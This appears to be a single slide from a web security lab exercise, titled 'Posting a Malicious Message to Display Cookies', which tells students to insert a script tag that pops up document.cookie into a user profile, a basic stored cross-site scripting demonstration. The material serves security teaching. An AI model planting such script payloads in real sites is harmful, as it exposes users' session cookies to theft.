

# Task 2: Posting a Malicious Message to Display Cookies
>>>>>>>>>Insert to the below code to your profile<<<<<<<<<<
<script>alert(document.cookie);</script>